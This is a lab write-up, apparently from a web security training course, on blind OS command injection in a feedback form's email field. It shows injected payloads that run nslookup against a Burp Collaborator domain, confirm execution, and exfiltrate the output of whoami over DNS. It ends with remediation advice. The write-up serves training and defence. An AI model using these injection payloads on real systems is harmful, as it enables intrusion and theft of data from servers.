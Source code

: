 ## 🧪 Lab: Blind OS Command Injection with Out-of-Band Data Exfiltration
**Level**: Practitioner  
**Date**: June 21, 2025  
**Goal**: Exploit a blind OS command injection vulnerability using out-of-band (OAST) DNS-based exfiltration via Burp Collaborator.

---

### 🧰 Tools
- Burp Suite Pro (Repeater / Collaborator)
- OAST DNS payloads
- Collaborator polling interface

---

### 🧭 Steps

1. Open the target **feedback form** as instructed.

2. Intercept the form submission request using **Burp Interceptor**, and **send to Repeater**.

3. Test for basic blind injection payloads:

```
email=xyz@gmail.com&ping+-c+5+127.0.0.1
```
❌ No delay or reflection. Likely a **blind injection** with no output.

4. Open **Burp Collaborator**, copy your DNS payload domain.

5. Inject the following OAST DNS payload:

```
email=xyz@gmail.com&nslookup+d5jziuy7pyb6gzzy4kz1wyv60x6pufi4.oastify.com#
```
✅ A DNS lookup appears in Collaborator — confirms code execution.

6. Refine the payload to **exfiltrate data (whoami)**:

```
email=xyz@gmail.com||nslookup+\`whoami\`.ngiringgr.oastify.com||
```
✅ Collaborator logs show:

```
peter-HrlzX6.ngiringgr.oastify.com
```
This confirms **command output** is being exfiltrated via DNS!

---

### 💣 Payloads

Trigger OAST injection:

```
xyz@gmail.com&nslookup+d5jziuy7pyb6gzzy4kz1wyv60x6pufi4.oastify.com#
```

Exfiltrate output (username):

```
xyz@gmail.com||nslookup+`whoami`.aangiringgr.oastify.com||
```

---

### 💡 Observations

- No reflection or delay = true blind injection  
- Burp Collaborator confirms both execution and output via DNS  
- Command substitution using backticks \`\` \` \`\`, useful for dynamic subdomain creation  
- Using \`||\` ensures shell doesn't break on malformed input  

---

### 🔒 Remediation

- Avoid shell calls with interpolated user input  
- Use safe libraries for system-level actions  
- Sanitize inputs strictly, especially in form fields  
- Monitor and restrict outbound traffic from servers  
- Disable DNS resolution from backend servers if not needed  
